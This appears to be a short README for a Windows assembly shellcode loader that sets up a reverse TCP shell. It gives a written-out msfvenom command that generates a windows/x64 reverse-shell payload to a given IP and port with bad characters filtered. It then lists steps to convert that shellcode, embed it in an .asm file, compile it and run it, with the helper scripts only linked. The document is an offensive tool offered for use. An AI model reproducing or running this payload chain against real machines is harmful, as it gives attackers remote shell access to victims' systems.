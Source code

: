 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create your payload

For example with : 

```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c ```

## 2. Convert your shellcode

Use this homemade [converter](./convert.sh) to get your asm shellcode.


## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm).

## 4. Compile your ASM

On windows you can use this compiler [script](./cimpiler.bat)

## 5. Run
